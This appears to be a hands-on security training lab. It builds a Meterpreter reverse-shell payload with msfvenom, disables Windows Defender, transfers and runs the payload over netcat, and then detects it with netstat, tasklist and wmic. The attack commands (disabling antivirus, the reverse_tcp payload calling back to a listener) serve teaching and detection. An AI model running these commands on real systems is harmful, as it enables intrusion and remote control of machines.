



# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let's get started.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

In the default powershell Window that opens, lets ensure that Defender is off;

PS C:\Users\adhd> `Set-MpPreference -DisableRealtimeMonitoring $true`

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means Defender was disabled.  We run above command to ensure that it is off for this lab.  It has a sneaky way of truning back on again..

And now, open a Ubuntu command prompt:

On your Linux system, please run the following command:

$`ifconfig`

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.
if you don't have metasploit already installed on your lab just run command below as root:
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

and then:
/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`nc -l -p 2222 < TrustMe.exe`

Now, let's start the Metasploit Handler.  You will have to open another Ubuntu command prompt by selecting the down carrot from the upper tabs on the Windows Terminal and selecting Ubuntu.

Let's become root first!!!
$`sudo su -`

Now, let's start the Metasploit handler.

root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

Now, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

Back at your Ubuntu prompt, you should have a metasploit session.

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!! 

Now, let's open another Command Prompt from our Terminal:

Once we are in, lets start with looking at the network connections:

We will start with C:\>`net view`

In this example, our malware will not have any sessions at all:

We will get the same lack of connections from C:\>`net session`

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try 

C:\>`netstat -naob`

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

C:\>`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

C:\>`netstat -naob`

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist  

C:\>`tasklist /m /fi "pid eq [PID]"`

Your PID WILL BE DIFFERENT!

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

C:\>`wmic process where processid=[PID] get commandline`

Ahh!!  Now we can see that the file was launched from the Edge temp downloads directory!  So, now we know it was downloaded from the Internet.

Let's see if we can see what spawned the process with wmic.

C:\> `wmic process get name,parentprocessid,processid`

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the browser_broker.exe process.  This once again, shows us that this process was launched from the browser. 

 

